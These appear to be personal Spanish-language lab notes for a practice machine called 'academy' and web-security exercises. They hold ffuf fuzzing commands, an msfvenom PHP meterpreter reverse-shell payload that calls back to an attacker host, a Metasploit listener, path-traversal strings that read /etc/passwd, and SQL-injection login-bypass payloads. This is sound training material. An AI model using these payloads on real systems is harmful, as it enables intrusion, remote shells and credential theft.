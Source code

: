 #### ffuf

> maquina academy

*dirbuster, dirb, wffuz*

```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://{TARGET}/FUZZ
```

> Se descubre http://{TARGET}/academy
> Reverse-shell con php-reverse-shell.php al subir un archivo.

```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST={ATACANTE} LPORT={P-ATACANTE} -f raw | tee academy-meterpreter.php
```

```sh
msf6> use exploit/multi/handler
run -j -z
```

> subir `linpeas.sh`

### Burpsuite

#### directory traversal

```sh
../../../../../../../../../etc/passwd
....//....//....//....//....//....//etc/passwd
```

#### SQL injection

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
https://{TARGET}/products?category=Gifts'--
-- = 
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

https://{TARGET}//products?category=Gifts'+OR+1=1--
-- =
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

username=administrator'--&password=sada
```